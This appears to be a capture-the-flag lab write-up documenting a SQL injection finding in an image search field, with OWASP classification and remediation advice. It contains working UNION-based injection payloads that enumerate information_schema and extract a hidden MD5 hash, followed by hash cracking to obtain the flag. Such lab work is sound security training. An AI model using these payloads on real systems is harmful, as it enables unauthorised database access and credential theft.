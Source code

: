 # Finding 02 - SQL injection on image searching input field

## Exploitability
Easy. Only 2 steps required : inject code in input field, then decrypt md5 using easy-to-find web tool.

## Risk level/type
OWASP top 10 :
- A02:2021 – Cryptographic Failures
	=>" Are deprecated hash functions such as MD5 or SHA1 in use [...] ?"
- A03:2021 – Injection 					vulnerability to SQL injection

## Detailed description of the exploit
First check whether input field is protected against SQL injections by typing:
```1 or 1=1```
This yields 5 elements, seemingly from a SQL database. The last one being :

```
ID: 5 
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```
Checking the URL gives no result


Then, try more advanced SQL injection with the following two commands:
```1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables```
and
```1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns ```
The results are copied in database_table_schema and database_table_columns files.
At the bottom of each listing, there are fields that seem to be user-generated (the only few names not fully capitalized)
The names can be found in the database_listing.md file.

From this info, we try another SQL injection command :
```1 and 1=1 UNION SELECT url, title from Member_images.list_images```
which yields :
```
ID: 1 and 1=1 UNION SELECT url, title from Member_images.list_images 
First name: borntosec.ddns.net/images.png
Surname : Hack me ?
```

And one last SQL injection command :
```1 and 1=1 UNION SELECT id, comment from Member_images.list_images```
which yields :
```
ID: 1 and 1=1 UNION SELECT id, comment from Member_images.list_images 
First name: 5
Surname : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

This code seems to be hashed with md5, so let's try to decrypt it with the following website :
https://www.md5online.org/md5-decrypt.html

It works ! And yields the following :
albatroz
To encrypt it with sha256, we can use the command:
```echo -n "albatroz" | sha256sum```
The flag is:
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

## Remediation

Input sanitizing is the first step.
There are several ways to sanitize the input, depending on the code architecture (legacy).
The first step is to use prepared statements with parameterized queries
	-> this means that the query would not be evaluated as a command but as a string, looking for an exact match to the string (i.e. a username matching "1 or 1 = 1")
For legacy code, you can also escape all the user input before putting it in a query.

Also, md5 is now deprecated in favor of sha2 algorithms (sha256, sha512) as well as sha3 algorithms.

## Additional resources
https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html

https://cheatsheetseries.owasp.org/cheatsheets/Database_Security_Cheat_Sheet.html

md5 deprecation notice :
https://www.security-database.com/detail.php?alert=VU836068